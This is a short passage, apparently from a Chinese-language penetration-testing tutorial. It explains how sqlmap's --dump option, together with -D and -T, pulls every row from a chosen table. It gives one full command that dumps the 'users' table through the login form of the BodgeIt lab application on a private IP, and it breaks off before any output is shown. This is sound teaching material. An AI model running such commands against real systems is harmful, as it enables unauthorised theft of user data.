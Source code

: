![](img/00152.jpeg)

要从某些表中提取所有数据，我们使用`--dump`选项加上`-D`指定数据库和`-T`指定表：

```

sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public -T users -dump

```

让我们看一个输出示例：
